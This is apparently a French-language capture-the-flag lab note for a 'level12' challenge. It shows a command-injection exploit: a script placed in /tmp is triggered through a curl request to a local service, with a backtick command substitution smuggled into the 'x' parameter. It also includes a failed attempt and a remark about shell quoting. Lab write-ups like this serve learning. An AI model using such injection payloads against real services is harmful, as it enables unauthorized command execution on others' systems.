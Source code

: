 ```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

Ne marche pas (lance check flag sans les droits).

Comment perdre 1h15: mettre des "" a la place de '' et ne pas comprendre pourquoi level12.pl lance sans les droits.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag

touch /tmp/flag
chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```

